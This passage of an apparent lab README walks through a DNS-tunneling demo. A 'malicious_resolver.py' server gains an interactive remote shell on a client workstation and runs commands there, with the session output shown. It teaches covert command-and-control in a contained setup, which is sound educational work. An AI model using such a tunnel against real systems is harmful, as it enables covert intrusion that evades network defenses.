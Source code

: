 From here we can interactively control the two endpoints on our network. At this time, the router containers are acting are intermediate couriers that move packets across the network and do not need any extra control by us.

<table border='1'>
    <tr>
        <th><h3>Server (running <a href="/dns-tunneling/server/malicious_resolver.py"><code>malcious_resolver.py</code></a>)</h3></th>
        <th><h3>Client (running <a href="/dns-tunneling/client/dns_lookup.py"><code>dns_lookup.py</code></a>)</h3></th>
    </tr>
    <tr>
        <td width="50%">
            Start the malicious resolver.
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py</pre>
        </td>
        <td width="50%">
            Start DNS lookup requests.
            <pre>root@workstation-1:/usr/src/app# python dns_lookup.py</pre>
        </td>
    </tr>
    <tr>
        <td width="50%">
            Notice that we now have a shell and that the hostname of the endpoint we have a shell to is printed (ex. <code>workstation-1</code>).
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> </pre>
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Now we can issue a command to run on the workstation endpoint (ex. <code>ls</code>).
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt</pre>
        From here you can continue to issue commands until you are satisfied and want to terminate the DNS tunneling session.
        </td>
        <td width="50%">
        </td>
    </tr>
    <tr>
        <td width="50%">
            Lets try issuing the <code>exit</code> command to exit the shell. Our specific implementation does not allow for the <code>exit command</code> and instead we are told to use <code>CTRL+C</code>.
            <pre>root@dns-server:/usr/src/app# python malicious_resolver.py 
workstation-1
shell> ls
Dockerfile
capture.sh
captures
dns_lookup.py
requirements.txt
shell> exit
To exit, use CTRL+C.
shell> ^C